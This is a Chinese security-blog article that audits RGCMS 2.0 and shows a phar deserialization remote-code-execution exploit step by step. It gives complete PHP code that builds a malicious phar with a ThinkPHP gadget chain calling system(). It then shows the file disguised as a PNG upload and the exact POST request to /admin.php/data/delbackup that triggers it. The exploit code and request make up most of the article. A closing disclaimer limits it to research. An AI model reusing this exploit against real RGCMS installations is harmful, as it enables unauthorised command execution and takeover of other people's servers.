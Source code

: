 #  【代码审计】RGCMS 2.0 存在 phar 反序列化RCE漏洞   
原创 RT  星悦安全   2025-01-29 11:09  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/lSQtsngIibibSOeF8DNKNAC3a6kgvhmWqvoQdibCCk028HCpd5q1pEeFjIhicyia0IcY7f2G9fpqaUm6ATDQuZZ05yw/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
点击上方  
蓝字  
关注我们 并设为  
星标  
## 0x00 前言  
  
RGCMS存在反序列化漏洞，攻击者可以通过该漏洞执行任意命令。  
  
影响版本：RGCMS 2.0  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5fYA4TI1sTlq63euaqnsOHPhhcffPebicJWo9SdVlEsLEk2U7ia16ub8mBZwGgnjNq1sqH6ibDECnz7w/640?wx_fmt=other&from=appmsg "")  
## 0x01 漏洞分析&复现  
  
漏洞点位于:rgcms2.0/app/admin/controller/Data.php  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5fYA4TI1sTlq63euaqnsOHPpr7TiaGIg75Usdh6scrp4MQYGlZHPhR5UP52KJUpDAKR5ZSbic3OI1Hw/640?wx_fmt=other&from=appmsg "")  
  
在delbackup()函数中，当数据库的类型不是mysql时，代码209行会执行unlink()函数，其中$data['path']参数可控用户可以使用phar协议执行上传的恶意文件从而导致任意命令执行。  
  
  
生成phar文件  
  
具体代码：  
  
  
```
<?phpnamespace think\process\pipes {    class Windows    {        private $files;        public function __construct($files)        {            $this->files = array($files);        }    }}namespace think\model\concern {    trait Conversion    {        protected $append = array("smi1e" => "1");    }    trait Attribute    {        private $data;        private $withAttr = array("smi1e" => "system");        public function get()        {            $this->data = array("smi1e" => "calc");        }    }}namespace think {    abstract class Model    {        use model\concern\Attribute;        use model\concern\Conversion;    }}namespace think\model{    use think\Model;    class Pivot extends Model    {        public function __construct()        {            $this->get();        }    }}namespace {    $conver = newthink\model\Pivot();    $a = new think\process\pipes\Windows($conver);    $phar = new Phar('hkey.phar');    $phar -> stopBuffering();    $phar -> setStub('GIF89a'.'<?php __HALT_COMPILER();?>');    $phar -> addFromString('test.txt','test');    $phar -> setMetadata($a);    $phar -> stopBuffering();}?>
```  
  
  
用本地的php生成一个phar文件  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5fYA4TI1sTlq63euaqnsOHPU6oZ1aNsUWjicdgficbmpXYAhhdVpjprUlbjXBkwqg9ChD7nU1OypQdw/640?wx_fmt=other&from=appmsg "")  
  
把hkey.phar文件名修改为hkey.png  
  
安装时RGCMS时选择数据库类型为：Sqlite  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5fYA4TI1sTlq63euaqnsOHPbeUnfjPat5nNQnzreA2icYLOdWLDSjJlHPwZjvCTJqdP7gpIAqaMXUA/640?wx_fmt=other&from=appmsg "")  
  
上传恶意的png文件：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5fYA4TI1sTlq63euaqnsOHPOSicRmnNNPOYgs4ogvmCgia9xngWCD4UZwj7pJnjx1rpKpqfv4PBySDg/640?wx_fmt=other&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5fYA4TI1sTlq63euaqnsOHP9QbExrByHsgMcoAPgoicmU7tr1KE0u4IHYc7LG7w5Ce3Geamm8EHpVA/640?wx_fmt=other&from=appmsg "")  
  
同时记录文件位置  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5fYA4TI1sTlq63euaqnsOHP5LKGeicAu1v6Jc927r1EjIicCATWotoMcjHb5Nxl8oVnQYoic7fQSRxPw/640?wx_fmt=other&from=appmsg "")  
  
/upload/image/20240820/2057e04b4b2d528ed7726d233fc87191.png 来到备份修复功能  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5fYA4TI1sTlq63euaqnsOHPE84Sd5FQ52s9fdtSSlq7vPnoViahge37RRxR0Ricqapb7D6PiaYobrDKw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5fYA4TI1sTlq63euaqnsOHPSPX4GTUx8UuPlLhaNBIC5Gic3JTTVg7JyjQ5V28m7VFt0CNnxh7Pnkg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5fYA4TI1sTlq63euaqnsOHP4OG9owVLdJum49dM6oOWWAJQ80clZ23HL9F3AjGm0H1NTlMX3xEyYw/640?wx_fmt=png&from=appmsg "")  
  
点击删除然后抓取数据包  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/uicic8KPZnD5fYA4TI1sTlq63euaqnsOHP1Uaq7uu5CicItlV4vA022aqJtuh8xicF0wrXx1KdMeJ0mXNEdwU5YU0A/640?wx_fmt=webp&from=appmsg "")  
  
抓包  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5fYA4TI1sTlq63euaqnsOHPPs4eZGrGeAEsWZ4YLfnrtYCPdiba5jRAeyicJmEnw9gs3rw57n3jUCxw/640?wx_fmt=png&from=appmsg "")  
  
将数据包中path参数修改为  
  
phar://upload/image/20240820/2057e04b4b2d528ed7726d233fc87191.png  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5fYA4TI1sTlq63euaqnsOHPOLx8icC5ue6YuNgMriazfBag8fDD9XJ8lztrNXYNaJP48yT1dTibe5fXA/640?wx_fmt=png&from=appmsg "")  
  
命令执行成功:   
  
  
```
POST /admin.php/data/delbackup HTTP/1.1Host: 127.0.0.1User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0Accept: application/json, text/javascript, */*; q=0.01Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Accept-Encoding: gzip, deflateContent-Type: application/x-www-form-urlencoded; charset=UTF-8X-Requested-With: XMLHttpRequestContent-Length: 212Origin: http://rgcms:81Connection: closeReferer: http://rgcms:81/admin.php/data/backuplistCookie: PHPSESSID=us9vfbgeh2i9c5kcp7h27ii8nsPriority: u=0title=20240820110529_rgcms.db&path=phar://upload/image/20240820/2057e04b4b2d528ed7726d233fc87191.png&children=&mtime=2024-08-20+11%3A05%3A29&size=1.09MB&type=file&ext=db&isReadable=true&isWritable=true&edit=false
```  
  
## 0x02 工具下载  
  
**标签:代码审计，0day，渗透测试，系统，通用，0day，闲鱼，转转**  
  
**Phar Poc关注公众号发送 250129 获取!**  
  
  
  
****  
**开了个星悦安全公开交流3群，🈲发公众号，纯粹研究技术，还会拉一些大佬，希望大家多多交流.**  
  
****  
**免责声明:****文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由读者承担全部法律及连带责任，文章作者和本公众号不承担任何法律及连带责任，望周知！！!**  
  
